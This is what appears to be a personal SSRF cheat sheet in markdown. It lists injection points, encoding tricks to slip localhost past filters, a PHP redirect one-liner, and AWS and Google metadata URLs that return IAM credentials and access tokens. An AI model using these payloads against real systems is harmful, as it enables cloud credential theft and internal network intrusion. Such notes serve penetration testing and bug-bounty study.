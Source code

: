 # SSRF

  ## WHERE

    ### File Upload	(SVGs, JPGs, XMLs and JSONs)
	
      #### SVGs : 

- Proxies
- Admin Configuration
- Webhooks
- URLs embedded in files that are processed by the application
- Hidden API endpoints that accept URLs as input
- HTML tag injections

  ## BYPASS

		### Whitelist :
	
	* Open redirect
	* @ , # , / , . 
	* Encoding ?

		### Blacklist
	
	* Encoding
	
		Hex : 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
		Octal : 127.0.0.1 translates to 0177.0.0.01
		DWord : 127.0.0.1 translates to 2130706433
		URL Encoding : localhost translates to %6c%6f%63%61%6c%68%6f%73%74
		Mixed : 127.0.0.1 translates to 0177.0.0.0x1

	* Ip V6
	* DNS 
	* Redirect ( <?php header(“location: http://127.0.0.1"); ?> ) / TinyUrl 

	## EXPLOIT

- localhost

- Collect instance metadata : EC2 ? Equivalent google ? 
	
	AWS

		* http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.

		* http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.

		* http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME returns the security credentials of that role.

		* http://169.254.169.254/latest/dynamic/instance-identity/document reveals the private IP address of the current instance.

		* http://169.254.169.254/latest/user-data/ returns user data on the current instance. 

	GOOGLE

		* http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token returns the access token of the default account on the instance.
		
		* http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-key returns public SSH keys that can connect to other instances in this project.

- fingerprinting : 
	
	* internally : port scanning, other services on internal ip ? 

		. Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses
		. 127.0.0.0/8
		. 192.168.0.0/16
		. 10.0.0.0/8

	* externally : user agent in dns/http request

-  Bypass access controls

- 

- RCE ???

-------------% LINKS $-------------

- SSRF Bible : https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#heading=h.kwcnj7jh5zyy

- Vickie Li : https://medium.com/@vickieli/sitemap-xml-6ecc3b14b4f

- Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses

- Common ports : https://packetlife.net/media/library/23/common-ports.pdf

